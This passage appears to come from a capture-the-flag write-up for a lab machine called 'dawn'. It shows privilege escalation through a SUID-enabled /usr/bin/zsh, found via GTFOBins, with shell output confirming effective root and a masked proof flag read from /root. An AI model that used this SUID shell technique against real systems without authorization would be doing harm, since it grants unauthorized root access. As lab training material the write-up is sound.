 > Comparing the output with [gtfobins](https://gtfobins.github.io/gtfobins/zsh/#suid) shows that  `/usr/bin/zsh` can be exploited to get `root` access.
{: .prompt-info }

```bash
www-data@dawn:/home/dawn$ /usr/bin/zsh
/usr/bin/zsh
dawn# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

> Yay! It worked! Our extended UID is `root`.
{: .prompt-info }

## get second flag
```bash
dawn# cd /root
cd /root
dawn# ls
ls
flag.txt  proof.txt
dawn# cat proof.txt
cat proof.txt
5******************************0
```

Pwned! <@:-)
